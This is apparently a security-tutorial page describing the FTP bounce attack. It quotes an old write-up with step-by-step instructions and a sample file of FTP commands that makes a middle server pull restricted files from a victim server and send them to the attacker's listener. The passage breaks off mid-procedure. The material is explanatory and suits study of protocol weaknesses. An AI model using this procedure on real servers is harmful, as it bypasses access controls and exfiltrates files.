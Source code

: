     Connect to your own FTP server and make the connection passive (pasv command) to make it listen in a directory where the victim service will send the file

    Make the file that is going to send the FTP Middle server t the Victim server (the exploit). This file will be a plaint text of the needed commands to authenticate against the Victim server, change the directory and download a file to your own server.

    Connect to the FTP Middle Server and upload de previous file

    Make the FTP Middle server establish a connection with the victim server and send the exploit file

    Capture the file in your own FTP server

    Delete the exploit file from the FTP Middle server

​

All the info in this post was extracted from: http://www.ouah.org/ftpbounce.html​
 The FTP Bounce Attack

This discusses one of many possible uses of the "FTP server bounce attack". The mechanism used is probably well-known, but to date interest in detailing or fixing it seems low to nonexistent. This particular example demonstrates yet another way in which most electronically enforced "export restrictions" are completely useless and trivial to bypass. It is chosen in an effort to make the reader sit up and notice that there are some really ill-conceived aspects of the standard FTP protocol.

 Thanks also to Alain Knaff at imag.fr for a brief but entertaining discussion of some of these issues a couple of months ago which got me thinking more deeply about them.
 The motive

You are a user on foreign.fr, IP address F.F.F.F, and want to retrieve cryptographic source code from crypto.com in the US. The FTP server at crypto.com is set up to allow your connection, but deny access to the crypto sources because your source IP address is that of a non-US site [as near as their FTP server can determine from the DNS, that is]. In any case, you cannot directly retrieve what you want from crypto.com's server.

 However, crypto.com will allow ufred.edu to download crypto sources because ufred.edu is in the US too. You happen to know that /incoming on ufred.edu is a world-writeable directory that any anonymous user can drop files into and read them back from. Crypto.com's IP address is C.C.C.C.
 The attack

 This assumes you have an FTP server that does passive mode. Open an FTP connection to your own machine's real IP address [not localhost] and log in. Change to a convenient directory that you have write access to, and then do:

pasv
stor foobar

 Take note of the address and port that are returned from the PASV command, F,F,F,F,X,X. This FTP session will now hang, so background it or flip to another window or something to proceed with the rest of this.

 Construct a file containing FTP server commands. Let's call this file "instrs". It will look like this:

user ftp
pass -anonymous@
cwd /export-restricted-crypto
type i
port F,F,F,F,X,X
retr crypto.tar.Z
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
...
